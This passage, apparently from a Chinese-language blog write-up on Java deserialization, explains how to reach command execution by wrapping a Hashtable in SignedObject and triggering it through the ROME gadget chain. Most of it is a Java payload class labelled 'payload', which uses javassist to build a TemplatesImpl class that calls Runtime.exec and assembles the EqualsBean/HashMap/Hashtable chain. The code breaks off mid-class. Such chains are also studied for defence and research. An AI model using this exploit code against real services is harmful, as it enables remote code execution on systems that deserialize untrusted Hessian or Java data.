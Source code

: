 所以我们就可以将需要序列化的`table`传到`SignedObject`，进行序列化，然后再次利用这个rome链触发调用`getObject`，这样就可以达到命令执行



payload：

```java
package org.example.Rome;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.HashMap;
import java.util.Hashtable;

public class Rome5 {
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
    }
    public static byte[] getTemplatesImplEvilCode(String cmd) throws Exception{
        String body="Runtime.getRuntime().exec(\""+cmd+"\");";
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.makeClass("z3eyond");
        CtClass superClass=pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);
        CtConstructor constructor=ctClass.makeClassInitializer();
        constructor.setBody(body);
        byte[] bytes=ctClass.toBytecode();
        return bytes;
    }
    public static Hashtable getPayload(Class clazz,Object obj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", obj);
        map2.put("zZ", bean);
        map2.put("yy", obj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", clazz);
        setFieldValue(bean, "_obj", obj);

        return table;
    }
```